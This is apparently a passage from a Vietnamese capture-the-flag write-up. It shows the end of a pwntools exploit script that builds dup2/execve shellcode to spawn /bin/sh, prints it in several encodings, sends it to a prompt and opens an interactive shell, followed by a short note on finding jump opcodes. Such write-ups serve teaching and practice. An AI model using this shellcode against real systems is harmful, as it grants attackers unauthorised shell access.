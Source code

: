 ```py
#     jmp_ad = asm("nop") * 2
#     jmp_8 = b"\xeb\x08"

#     sc = asm("add rdi, 0x28")
#     sc += jmp_ad
#     sc += jmp_8
#     sc += pad

#     return sc


def exploit():

  shellcode = dup2()
  shellcode += execve()
  shellcode += cyclic(40) + b"/bin/sh\0"

  print(f"Length: {len(shellcode)}")
  print(disasm(shellcode))


  print("\nShellcode bytes (hex):")
  print(shellcode.hex())


  print("\nShellcode bytes (escaped):")
  print(''.join(f'\\x{b:02x}' for b in shellcode))


  sa(b":", shellcode)

  interactive()

if __name__ == '__main__':
  exploit()
```

Sẽ có nhiều thắc mắc về việc làm sao mình tìm được opcode của `jmp` cần thiết, thì mình sử dụng tool đã ghi ở trên để làm, nhưng vì do mình lười viết đi viết lại nhiều lần các cái padding `nop` quá nên mình dùng function trong python cho nhanh
